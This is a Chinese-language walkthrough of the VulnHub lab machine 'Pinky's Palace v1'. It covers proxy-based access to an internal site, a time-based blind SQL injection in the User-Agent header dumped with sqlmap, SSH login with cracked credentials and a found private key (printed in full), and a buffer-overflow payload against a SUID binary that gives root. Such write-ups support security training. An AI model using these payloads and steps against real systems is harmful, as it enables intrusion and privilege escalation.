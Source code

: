 # Pinky's Palace: v1

2024-5-6 https://www.vulnhub.com/entry/pinkys-palace-v1,225/

difficulty: Easy/Intermediate

## IP

192.168.5.22

## Scan

Open Port -> 8080,31337,64666

```
PORT      STATE SERVICE    VERSION
8080/tcp  open  http       nginx 1.10.3
|_http-title: 403 Forbidden
|_http-server-header: nginx/1.10.3
31337/tcp open  http-proxy Squid http proxy 3.5.23
|_http-title: ERROR: The requested URL could not be retrieved
|_http-server-header: squid/3.5.23
64666/tcp open  ssh        OpenSSH 7.4p1 Debian 10+deb9u2 (protocol 2.0)
| ssh-hostkey:
|   2048 df02124f4c6d50276a84e90e5b65bfa0 (RSA)
|   256 0aadaac716f71507f0a8502317f31c2e (ECDSA)
|_  256 4a2de5d8ee696155bbdbaf294e54522f (ED25519)
```

只开了 3 个端口，其中有一个 squid 代理。

8080 访问后，返回 403，看样子需要我们使用 squid 代理去访问。

通过下面这样访问还是会报错 403，看样子是内部服务只能允许本地访问：

```
curl http://192.168.5.22:8080 -x http://192.168.5.22:31337/
```

使用这样链接访问:

```
curl http://127.0.0.1:8080 -x http://192.168.5.22:31337/
```

发现有新页面：

```
Pinky's HTTP File Server
Under Development!
```

源代码中没有提示信息。

目录扫描，暂时未发现隐藏目录：

```
dirb http://127.0.0.1:8080/ -X html,php,txt,zip -p http://192.168.5.22:31337/
```

换更大的字典：

```
dirb http://127.0.0.1:8080/ /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -p http://192.168.5.22:31337/
```

发现了一个目录：http://127.0.0.1:8080/littlesecrets-main/

让我们访问看看，是一个登陆页面，并且源代码中有提示信息：

```
<!-- Luckily I only allow localhost access to my webserver! Now I won't get hacked. -->
```

目前，不知道用户名和密码，尝试用 admin:admin 登陆后，提示密码不对，但是在源代码中发现了一个提示：

```
<!-- Login Attempt Logged -->
```

表示登陆信息已经进行记录日志，那么就有可能登陆失败的相关信息存到了数据库或者日志文件中。

先用 sqlmap 尝试是否能绕过：

```
sqlmap -r req.txt --batch --proxy=http://192.168.5.22:31337
```

默认扫描配置下，没有发现信息，根据上面提示的日志已经记录，加大扫描力度，重新扫描：

```
sqlmap -r req.txt --level=5 --batch --proxy=http://192.168.5.22:31337
```

结果发现注入点：

```
parameter 'User-Agent' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
```

爆数据(盲注有点慢)：

```
sqlmap -r req.txt --level=5 --batch --proxy=http://192.168.5.22:31337 --dbs

[*] information_schema
[*] pinky_sec_db

sqlmap -r req.txt --level=5 --batch --proxy=http://192.168.5.22:31337 -D pinky_sec_db --tables

+-------+
| logs  |
| users |
+-------+

sqlmap -r req.txt --level=5 --batch --proxy=http://192.168.5.22:31337 -D pinky_sec_db -T users --column

+--------+--------------+
| Column | Type         |
+--------+--------------+
| user   | varchar(100) |
| pass   | varchar(100) |
| uid    | int(11)      |
+--------+--------------+

sqlmap -r req.txt --level=5 --batch --proxy=http://192.168.5.22:31337 -D pinky_sec_db -T users -C user,pass --dump

+-------------+----------------------------------+
| user        | pass                             |
+-------------+----------------------------------+
| pinkymanage | d60dffed7cc0d87e1f4a11aa06ca73af |
| pinky       | f543dbfeaf238729831a321c7a68bee4 |
+-------------+----------------------------------+
```

pass 字段应该是哈希加密了，在网上寻找哈希对应的明文，只找到了 pinkymanage:3pinkysaf33pinkysaf3 进行登陆，但是登陆还是失败。

那估计这个用户凭证，很有可能是登陆 ssh 的，进行尝试，登陆成功：

```
ssh pinkymanage@192.168.5.22 -p 64666
```

ssh 登陆成功后，对系统进一步进行枚举，直接使用 linpeas 进行系统枚举。

在 /var/www/html/littlesecrets-main/ultrasecretadminf1l35 目录下，发现 note.txt，看看什么内容：

```
Hmm just in case I get locked out of my server I put this rsa key here.. Nobody will find it heh..
```

同时发现 .ultrasecret ：

```
LS0tLS1CRUdJTiBSU0EgUFJJVkFURSBLRVktLS0tLQpNSUlFcEFJQkFBS0NBUUVBMTZmeEwzLyto
L0lMVFpld2t2ZWtoSVExeWswb0xJK3kzTjRBSXRraGV6MTFJaGE4CkhjN0tPeC9MOWcyamQzSDhk
R1BVZktLcjlzZXF0Zzk3WktBOTVTL3NiNHczUXRsMUFCdS9wVktaQmJHR3NIRy8KeUl2R0VQS1Mr
QlNaNHN0TVc3SG54N2NpTXVod2Nad0xxWm1zeVN1bUVDVHVlUXN3TlBibElUbHJxb2xwWUY4eApl
NDdFbDlwSHdld05XY0lybXFyYXhDSDVUQzdVaGpnR2FRd21XM3FIeXJTcXAvaksvY3RiMVpwblB2
K0RDODMzCnUvVHlqbTZ6OFJhRFpHL2dSQklyTUduTmJnNHBaRmh0Z2JHVk9mN2ZlR3ZCRlI4QmlU
KzdWRmZPN3lFdnlCeDkKZ3hyeVN4dTJaMGFPTThRUjZNR2FETWpZVW5COWFUWXV3OEdQNHdJREFR
QUJBb0lCQUE2aUg3U0lhOTRQcDRLeApXMUx0cU9VeEQzRlZ3UGNkSFJidG5YYS80d3k0dzl6M1Mv
WjkxSzBrWURPbkEwT1VvWHZJVmwvS3JmNkYxK2lZCnJsZktvOGlNY3UreXhRRXRQa291bDllQS9r
OHJsNmNiWU5jYjNPbkRmQU9IYWxYQVU4TVpGRkF4OWdrY1NwejYKNkxPdWNOSUp1eS8zUVpOSEZo
TlIrWVJDb0RLbkZuRUlMeFlMNVd6MnFwdFdNWUR1d3RtR3pPOTY4WWJMck9WMQpva1dONmdNaUVp
NXFwckJoNWE4d0JSUVZhQnJMWVdnOFdlWGZXZmtHektveEtQRkt6aEk1ajQvRWt4TERKcXQzCkxB
N0pSeG1Gbjc3L21idmFEVzhXWlgwZk9jUzh1Z3lSQkVOMFZwZG5GNmtsNnRmT1hLR2owZ2QrZ0Fp
dzBUVlIKMkNCN1BzRUNnWUVBOElXM1pzS3RiQ2tSQnRGK1ZUQnE0SzQ2czdTaFc5QVo2K2JwYitk
MU5SVDV4UkpHK0RzegpGM2NnNE4rMzluWWc4bUZ3c0Jobi9zemdWQk5XWm91V3JSTnJERXhIMHl1
NkhPSjd6TFdRYXlVaFFKaUlQeHBjCm4vRWVkNlNyY3lTZnpnbW50T2liNGh5R2pGMC93bnRqTWM3
M3h1QVZOdU84QTZXVytoZ1ZIS0VDZ1lFQTVZaVcKSzJ2YlZOQnFFQkNQK3hyQzVkSE9CSUVXdjg5
QkZJbS9Gcy9lc2g4dUU1TG5qMTFlUCsxRVpoMkZLOTJReDlZdgp5MWJNc0FrZitwdEZVSkxjazFN
MjBlZkFhU3ZPaHI1dWFqbnlxQ29mc1NVZktaYWE3blBRb3plcHFNS1hHTW95Ck1FRWVMT3c1NnNK
aFNwMFVkWHlhejlGUUFtdnpTWFVudW8xdCtnTUNnWUVBdWJ4NDJXa0NwU0M5WGtlT3lGaGcKWUdz
TE45VUlPaTlrcFJBbk9seEIzYUQ2RkY0OTRkbE5aaFIvbGtnTTlzMVlPZlJYSWhWbTBaUUNzOHBQ
RVZkQQpIeDE4ci8yRUJhV2h6a1p6bGF5ci9xR29vUXBwUkZtbUozajZyeWZCb21RbzUrSDYyVEE3
bUl1d3Qxb1hMNmM2Ci9hNjNGcVBhbmcyVkZqZmNjL3IrNnFFQ2dZQStBenJmSEZLemhXTkNWOWN1
ZGpwMXNNdENPRVlYS0QxaStSd2gKWTZPODUrT2c4aTJSZEI1RWt5dkprdXdwdjhDZjNPUW93Wmlu
YnErdkcwZ016c0M5Sk54SXRaNHNTK09PVCtDdwozbHNLeCthc0MyVng3UGlLdDh1RWJVTnZEck9Y
eFBqdVJJbU1oWDNZU1EvVUFzQkdSWlhsMDUwVUttb2VUSUtoClNoaU9WUUtCZ1FEc1M0MWltQ3hX
Mm1lNTQxdnR3QWFJcFE1bG81T1Z6RDJBOXRlRVBzVTZGMmg2WDdwV1I2SVgKQTlycExXbWJmeEdn
SjBNVmh4Q2pwZVlnU0M4VXNkTXpOYTJBcGN3T1dRZWtORTRlTHRPN1p2MlNWRHI2Y0lyYwpIY2NF
UCtNR00yZVVmQlBua2FQa2JDUHI3dG5xUGY4ZUpxaVFVa1dWaDJDbll6ZUFIcjVPbUE9PQotLS0t
LUVORCBSU0EgUFJJVkFURSBLRVktLS0tLQo=
```

内容像是 base64，base64 -d 后得到私钥并保存结果：

```
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA16fxL3/+h/ILTZewkvekhIQ1yk0oLI+y3N4AItkhez11Iha8
Hc7KOx/L9g2jd3H8dGPUfKKr9seqtg97ZKA95S/sb4w3Qtl1ABu/pVKZBbGGsHG/
yIvGEPKS+BSZ4stMW7Hnx7ciMuhwcZwLqZmsySumECTueQswNPblITlrqolpYF8x
e47El9pHwewNWcIrmqraxCH5TC7UhjgGaQwmW3qHyrSqp/jK/ctb1ZpnPv+DC833
u/Tyjm6z8RaDZG/gRBIrMGnNbg4pZFhtgbGVOf7feGvBFR8BiT+7VFfO7yEvyBx9
gxrySxu2Z0aOM8QR6MGaDMjYUnB9aTYuw8GP4wIDAQABAoIBAA6iH7SIa94Pp4Kx
W1LtqOUxD3FVwPcdHRbtnXa/4wy4w9z3S/Z91K0kYDOnA0OUoXvIVl/Krf6F1+iY
rlfKo8iMcu+yxQEtPkoul9eA/k8rl6cbYNcb3OnDfAOHalXAU8MZFFAx9gkcSpz6
6LOucNIJuy/3QZNHFhNR+YRCoDKnFnEILxYL5Wz2qptWMYDuwtmGzO968YbLrOV1
okWN6gMiEi5qprBh5a8wBRQVaBrLYWg8WeXfWfkGzKoxKPFKzhI5j4/EkxLDJqt3
LA7JRxmFn77/mbvaDW8WZX0fOcS8ugyRBEN0VpdnF6kl6tfOXKGj0gd+gAiw0TVR
2CB7PsECgYEA8IW3ZsKtbCkRBtF+VTBq4K46s7ShW9AZ6+bpb+d1NRT5xRJG+Dsz
F3cg4N+39nYg8mFwsBhn/szgVBNWZouWrRNrDExH0yu6HOJ7zLWQayUhQJiIPxpc
n/Eed6SrcySfzgmntOib4hyGjF0/wntjMc73xuAVNuO8A6WW+hgVHKECgYEA5YiW
K2vbVNBqEBCP+xrC5dHOBIEWv89BFIm/Fs/esh8uE5Lnj11eP+1EZh2FK92Qx9Yv
y1bMsAkf+ptFUJLck1M20efAaSvOhr5uajnyqCofsSUfKZaa7nPQozepqMKXGMoy
MEEeLOw56sJhSp0UdXyaz9FQAmvzSXUnuo1t+gMCgYEAubx42WkCpSC9XkeOyFhg
YGsLN9UIOi9kpRAnOlxB3aD6FF494dlNZhR/lkgM9s1YOfRXIhVm0ZQCs8pPEVdA
Hx18r/2EBaWhzkZzlayr/qGooQppRFmmJ3j6ryfBomQo5+H62TA7mIuwt1oXL6c6
/a63FqPang2VFjfcc/r+6qECgYA+AzrfHFKzhWNCV9cudjp1sMtCOEYXKD1i+Rwh
Y6O85+Og8i2RdB5EkyvJkuwpv8Cf3OQowZinbq+vG0gMzsC9JNxItZ4sS+OOT+Cw
3lsKx+asC2Vx7PiKt8uEbUNvDrOXxPjuRImMhX3YSQ/UAsBGRZXl050UKmoeTIKh
ShiOVQKBgQDsS41imCxW2me541vtwAaIpQ5lo5OVzD2A9teEPsU6F2h6X7pWR6IX
A9rpLWmbfxGgJ0MVhxCjpeYgSC8UsdMzNa2ApcwOWQekNE4eLtO7Zv2SVDr6cIrc
HccEP+MGM2eUfBPnkaPkbCPr7tnqPf8eJqiQUkWVh2CnYzeAHr5OmA==
-----END RSA PRIVATE KEY-----
```

这个 ssh 密钥应该是另一个用户 pinky 的，尝试登陆。

```
chmod 600 id_rsa
ssh -i id_rsa pink@192.168.5.22 -p 64666
```

登陆成功。查看 note.txt 提示文件：

```
Been working on this program to help me when I need to do administrator tasks sudo is just too hard to configure and I can never remember my root password! Sadly I'm fairly new to C so I was working on my printing skills because Im not sure how to implement shell spawning yet :(
```

发现当前目录下，有 SUID 程序 adminhelper，上面指的程序应该就是这个。

尝试执行 adminhelper ：

```
pinky@pinkys-palace:~$ ./adminhelper 123
123

pinky@pinkys-palace:~$ ./adminhelper $(python -c 'print("A" * 1024)')
Segmentation fault
```

表名存在缓冲区溢出，可以进行利用。

strings adminhelper 后，发现程序中使用了 spawn，可以进行利用。

经过查询资料，找到可利用的漏洞代码：

```
./adminhelper $(python -c "print 'A'*72+'\xd0\x47\x55\x55\x55\x55'")
```

执行后得到了 root 权限，并且得到了 root flag：

```
# cat root.txt
===========[!!!CONGRATS!!!]===========

[+] You r00ted Pinky's Palace Intermediate!
[+] I hope you enjoyed this box!
[+] Cheers to VulnHub!
[+] Twitter: @Pink_P4nther

Flag: 99975cfc5e2eb4c199d38d4a2b2c03ce
```
